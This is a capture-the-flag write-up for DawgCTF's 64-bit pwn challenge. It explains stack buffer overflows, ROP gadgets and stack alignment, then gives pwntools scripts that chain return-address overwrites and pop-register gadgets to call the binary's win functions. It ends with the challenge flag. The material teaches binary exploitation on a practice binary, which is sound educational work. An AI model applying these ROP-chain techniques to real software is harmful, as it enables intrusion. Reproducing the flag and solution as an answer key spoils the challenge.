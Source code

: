 ```yaml
---
title: "64 bits in my Ark and Texture"
description: "Can you pwn it? No libc or system needed. Just good ol, 64 bit binary exploitation."
pubDate: 2025-04-21
ctf: "DawgCTF"
category: "Pwn"
author: "HulkOperator"
image: "./images/25-dawg/icon.png"
section: "CTFs"
---
```


## Background
### Stack Buffer Overflow
A buffer overflow occurs when excessive data is written into a space with limited capacity. When this happens, the extra data leaks out of the variable's bounds and overwrites other values on the stack. If random values overflow the buffer, then the program crashes. However, by crafting a calculated payload, we can control the execution flow through this overflow. 

Typically, the return address is targeted when exploiting such vulnerabilities. What exactly is a return address, and what purpose does it serve? When a function completes its execution, the program needs to know where to resume operation—that's where the return address comes in. This value stored on the stack tells the processor where to continue execution after the function finishes. 

If we can overwrite the return address during the buffer overflow, we can control the program's execution flow.

### ROP Gadgets
This challenge requires a heavy reliance on ROP Gadgets to obtain the flag. Hence, before moving to the solution, let's understand what they mean. 
ROP Gadgets are small sequences of machine instructions already present in a binary and end with the `ret` instruction. These gadgets can be used to manipulate values in registers. For example, the following gadget pops the value on the top of the stack into the `rdi` register and returns.
```asm
pop rdi
ret
```

### x64 Stack Alignment
While solving this challenge, I wasted a lot of time due to stack alignment issues. Hence, let's understand why it's essential. 
x86_64 architecture requires that the stack be 16-byte aligned at all times. That is, the value of the register `rsp` must be divisible by 16. If the stack is not aligned and a function is called, it will most likely result in a crash. 

## Solution
Now that we have covered the background information, let's dive into solving this challenge.

### Level 0
The binary asks three simple questions about the x86_64 Architecture, which are trivial to answer.

![Level 0 Answers](images/25-dawg/x64_level0.png)

### Level 1
Now, the actual fun begins. The Level 1 asks us to jump to the address `0x401401`. We can test if the program is vulnerable to buffer overflow using two methods. The long and tedious one would be decompiling the binary using Ghidra, analyzing the source code, and checking if it is vulnerable. A simpler approach would be to send a large input value and check if the program crashes. Let's do this.

A large input value can be generated using 
```py
print("A"*1000)
```
Entering this value crashes the program
![Vuln Confirmation](images/25-dawg/x64_level_1_1.png)

Now that we have confirmed the existence of a vulnerability, we need to identify the position of the payload that's overwriting the return address. We can do this by sending an input with a pattern.
`msf-pattern_create -l 1000`

Then fire up GDB `gdb ./chall` and enter `r` to run the program. For the level 1 input, paste the pattern generated above and identify the `rsp` value when the program crashes.
![RSP Crash Value](images/25-dawg/x64_level_1_2.png) 

Then `msf-pattern_offset -q 0x4132664131664130` can be used to identify the offset where the return address is overwritten. The result indicates the offset as 152. 

This level asks us to jump to the address `0x401401`. We can do this by sending a payload starting with 152 bytes of arbitrary data and then this address. When the function is completed, the execution flow is resumed at the address of our choice.
Well, not so fast. If we do this, we break the stack alignment and our payload causes a crash (Because 152 % 16 != 0). We must add an additional byte to our payload to keep the stack aligned.
Hence, we can use a simple `ret` gadget to maintain the stack alignment. We can identify the address of this gadget using the `ROPgadget` tool.
`ROPgadget --binary ./chall --opcode c3`

Since we are dealing with binary data, we can no longer copy and paste input. So, the rest of the implementation will be done using Python.
```py
from pwn import *

conn = process("./chall")

# Level 0 
conn.recvuntil(b"> ")
conn.sendline(b"2")
conn.recvuntil(b"> ")
conn.sendline(b"1")
conn.recvuntil(b"> ")
conn.sendline(b"4")
print(conn.recv().decode())

# Level 1
l1_arbitrary_data = b"A" * 152
ret_gadget = p64(0x40101a)
l1_ret_addr = p64(0x401401)

l1_payload = l1_arbitrary_data + ret_gadget + l1_ret_addr
conn.sendline(l1_payload)
print(conn.recvuntil(b"Continue:").decode())
```

### Level 2
The next level challenges us to jump to the address `0x401314` with the argument `0xDEADBEEF`. The process used to solve this level is similar to the previous level. By crashing the program, the offset for the return address turns out to be `40`. 

This is just one part of the problem. The other part is to pass `0xDEADBEEF` as an argument to this function. In the x86_64 architecture, the first four arguments are passed in the registers `rdi`, `rsi`, `rdx`, and `rcx`. Additional arguments are placed on the stack from right to left. 
Hence, we can manipulate the `rdi` value by placing `0xDEADBEEF` on the stack and jumping to the following gadget
```asm
pop rdi
ret
```
This gadget's address can be identified using `ROPgadget --binary ./chall --opcode 5fc3`.

So, our level 2 payload will look as follows
```py
l2_arbitrary_data = b"A" * 40
ret_gadget = p64(0x40101a)
pop_rdi_gadget = p64(0x4017d6)
deadbeef = p64(0xdeadbeef)
l2_ret_addr = p64(0x401314)
l2_payload = l2_arbitrary_data + ret_gadget + pop_rdi_gadget + deadbeef + l2_ret_addr
conn.sendline(l2_payload)
print(conn.recv().decode())

conn.interactive()
```

### Level 3
Level 3 has a bit more steps and challenges us to pass three arguments (`0xDEADBEEF`, `0xDEAFFACE`, and `0xFEEDCAFE`) and figure out the function's address. The challenge binary has defined these levels in different functions, namely, win1, win2, and win3. Since the address of win3 is not given, we can use GDB to identify the address: `disass win3`. This gives us the Win3 function's address `0x4011e6`. 

Now, the process used to solve this challenge is exactly the same as the previous level. However, since 3 arguments are involved, we have to utilise 3 gadgets for manipulating `rdi`, `rsi`, and `rdx` registers. 

```py
# Level 3
l3_arbitrary_data = b"A" * 56
win3_addr = p64(0x4011e6)
pop_rdi_ret = p64(0x4017d6)
pop_rsi_ret = p64(0x4017d8)
pop_rdx_ret = p64(0x4017da)

payload = l3_arbitrary_data + p64(0x40101a)+  pop_rdi_ret + p64(0xDEADBEEF) + pop_rsi_ret + p64(0xDEAFFACE) + pop_rdx_ret + p64(0xFEEDCAFE) + win3_addr
conn.sendline(payload)
print(conn.recv().decode())

conn.interactive()
```


Flag: `DawgCTF{C0ngR4tul4t10ns_d15c1p13_y0u_4r3_r34dy_2_pwn!}`
